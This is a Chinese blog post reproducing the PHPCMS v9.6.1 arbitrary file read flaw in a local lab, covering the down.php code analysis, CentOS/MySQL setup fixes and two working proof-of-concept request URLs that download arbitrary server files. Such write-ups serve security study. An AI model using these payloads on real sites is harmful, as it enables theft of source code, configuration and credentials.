 ```yaml
---
layout: post
title: "phpcms v9.6.1任意文件读取漏洞复现"
date: 2017-11-07
description: "漏洞复现"
tag: 渗透姿势
---
```


看着网上的大佬们的分析过程复现了一下phpcms<br>v9.6.1的任意文件读取，头次用centos搭建网站遇到了不少坑，记录一下此次复现

### 准备工作
#### 使用操作系统
靶机系统：Centos7.3<br>
攻击系统：windows 7

#### 知识铺垫
1.php原生parse_str方法，会自动进行一次urldecode，第二个参数为空，则执行类似extract操作。<br>
2.原生empty方法，对字符串""返回true。<br>
3.phpcms中sys_auth是对称加密且在不知道auth_key的情况下理论上不可能构造出有效密文。

#### 漏洞分析
按照网上教程分析了PHPCMS v9.6.0和v9.6.1，发现phpcms/modules/content/down.php有如下修改<br>
代码对比[网址](http://tool.oschina.net/diff/)<br>
![](/images/2017-11-07/01.png)
![](/images/2017-11-07/02.png)
![](/images/2017-11-07/03.png)
这里主要修改了init()和download()
![](/images/2017-11-07/04.png)
1.通过GET获取到$a_k参数内容，然后$a_k参数内容能够进入到sys_auth函数进行解密。<br>
2.Parse str函数会自动对传入的值将其根据&分割，然后解析到具体变量并注册变量，并且对内容进行URL解码操作。(比如我们传入‘id=123%27%20and%201=1%23’,经过parse_str函数后变成了id=123’ and 1=1#。)<br>
3.$f变量不能为空，这里正好通过parse_str处理后注册了$f，说明$f变量的内容是我们可控的。<br>
![](/images/2017-11-07/05.png)
1.这里判断你的$f是不是有非法后缀，或者使用’:\’，’..’，只要匹配到其中一种都是违法的。<br>
2.然后判断是不是外链文件’http://’或’ftp://’或未使用’://’，系统生成一个$pc_auth_key，以这个$pc_auth_key为auth_key加密一个拼接了各种参数的url，上面的$f也在里面，然后生成一个$downurl，也就是下载文件的链接。<br>
![](/images/2017-11-07/06.png)
1.这里讲GET获取的$a_k变量内容进行解密，解密时使用$pc_auth_key为auth_key，跟上面在init函数里面加密使用的同一个auth_key，这里加密解密就对应起来了。<br>
2.变量$a_k通过一次safe_replace函数处理，再次通过parse_str函数处理。<br>
![](/images/2017-11-07/07.png)
1.继续对$f变量进行后缀和特殊字符的判断。<br>
2.将$s和$f拼接起来，在来判断fileurl的后缀。(如果fileurl是远程文件就直接跳转了，如果不是就放到else里面处理)<br>
3.获取文件后缀，然后加上一个日期为文件名，最后将fileurl中的’<’和’>’替换为空。<br>
4.将fileurl既为文件名传入到file_down函数进行下载。<br>

打开phpcms/libs/functions/global.func.php
![](/images/2017-11-07/08.png)
这里没有做任何处理<br>
所以一路走下来，我们可控的参数进入到了fileurl既文件路径和filename既文件名里面。
如果我们输入一个ph，一个>p，然后相加就是ph>p，经过替换后就变成了php，而在这个过程中，正好有$s和$f拼接的过程：
```
$s=’test.ph’ + $f=’>p’ = $fileurl=’test.ph>p’,最后替换成了个 $fileurl=’test.php’
```
### 漏洞复现
#### 靶机搭建
Centos搭建lamp（linux+apache+mysql+php）<br>
常规安装
```
# yum -y install httpd php mysql mysql-server php-mysql
```
由于长期使用Ubuntu的原因，在这里遇到了3个大坑，这里我列一下解决方案

1）linux 下安装phpcms文件权限不可写<br>
将/var/www/html/phpcms目录所属用户和组修改为apache
```
# chown -R apache:apache phpcms/
# find phpcms/* -type f -exec chmod 644 {} \;
# find phpcms/* -type d -exec chmod 755 {} \;
```
这种方法发现并不能解决<br>
查阅资料后发现是防火墙的问题<br>
setenforce是Linux的selinux防火墙配置命令 执行setenforce 0 表示关闭selinux防火墙。
```
# getenforce
Enforcing（强制模式）
# setenforce 0
Permissive
```
这时候再看phpcms权限变为可写<br>
注：SELinux 宽容模式（Permissive）强制模式（Enforcing）

2）Centos 下yum install mysql-server没有可用包<br>
Centos下默认好像是MariaDB数据库，自带源无法安装mysql-server
```
# wget http://repo.mysql.com/mysql-community-release-el7-5.noarch.rpm
# rpm -ivh mysql-community-release-el7-5.noarch.rpm
# ls -1 /etc/yum.repos.d/mysql-community*
	/etc/yum.repos.d/mysql-community.repo 
 	/etc/yum.repos.d/mysql-community-source.repo
# yum install mysql-server
```

3)安装完Mysql后登录报错ERROR 1045 (28000)
mysql 用户没有操作/var/run目录的权限，所以pid文件无法创建，导致登陆时无法建立 进程信息文件，登陆进程就无法开启，自然无法登陆。<br>
第一步：<br>
修改 /etc/my.conf
```
#pid-file=/var/run/mysqld/mysqld.pid(注释这条)
pid-file=/var/lib/mysqld/mysqld.pid（新增内容）
```
mysql用户无法cd /var/run/。修改为mysql可以有权限的目录后再执行mysql就进入数据库了。<br>
第二步：
```
/etc/init.d/mysql stop (service mysqld stop)
/usr/bin/mysqld_safe –skip-grant-tables
```
连接mysql
```
mysql> use mysql;
mysql> update user set password=password("123456") where user="root";
mysql> flush privileges;
mysql> exit
```
然后
```
# ps –a | grep mysql
25225 ?        00:00:00 mysqld_safe
25373 ?        00:00:01 mysqld
# kill -9 25225 25373
# /etc/init.d/mysql start(service mysqld start)
```
#### 漏洞利用
这个漏洞利用总共有两种方法，不过实际区别是用户是否登录<br>

方案一（前台注册并登录）：
访问如下url：
```
http://127.0.0.1/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3Dphpcms%2fmodules%2fcontent%2fdown.ph%26f=p%3%252%2*77C
```
![](/images/2017-11-07/09.png)
这段poc是用来下载phpcms/modules/content/down.php文件的
![](/images/2017-11-07/10.png)
此时捕获到的att_json就是a_k参数的值
```
http://127.0.0.1/index.php?m=content&c=down&a=init&a_k=
```
![](/images/2017-11-07/11.png)
获取到下载按钮
![](/images/2017-11-07/12.png)
点击下载
![](/images/2017-11-07/13.png)
![](/images/2017-11-07/14.png)
下载到的文件正是down.php

同理可以任意下载其它文件

方案二（用户未登录）：
```
http://127.0.0.1/index.php?m=wap&c=index&a=init&siteid=1
```
![](/images/2017-11-07/15.png)
获取当前的siteid
![](/images/2017-11-07/16.png)
```
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
```
并POST userid_flash,值为获取到的siteid
```
userid_flash= 9024Wq6sW-RX5X41P0sSfZdBK5C2gM5vQyQ_9ytr
```
![](/images/2017-11-07/17.png)
拿到att_json，然后按照方案一构造a_k即可
![](/images/2017-11-07/18.png)

### 复现心得

之前一直使用ubuntu，用Centos搭建网站特别不顺畅，权限低到离谱，从kali的root到ubuntu的sudo权限，再到centos一开始真心不适应。搭建网站中遇到了很多坑，不过所幸都一一解决了。<br>
对phpcms分析让我对代码审计方面也得到了长进，从网上了解到了一些web漏洞挖掘的心得，和构造payload的过程，感觉收获还是很大的。<br>

参考网址：
	[【漏洞分析】PHPCMS V9.6.1 任意文件读取漏洞分析（含PoC，已有补丁）](http://bobao.360.cn/learning/detail/3805.html)<br>
	[phpcms v9.6.1任意文件下载漏洞分析及EXP](http://blog.nsfocus.net/phpcms-v9-6-1-arbitrary-file-download-vulnerability-analysis-exp/)<br>
	[PHPCMSv9.6.1任意文件读取漏洞的挖掘和分析过程](https://segmentfault.com/a/1190000009279116#articleHeader4)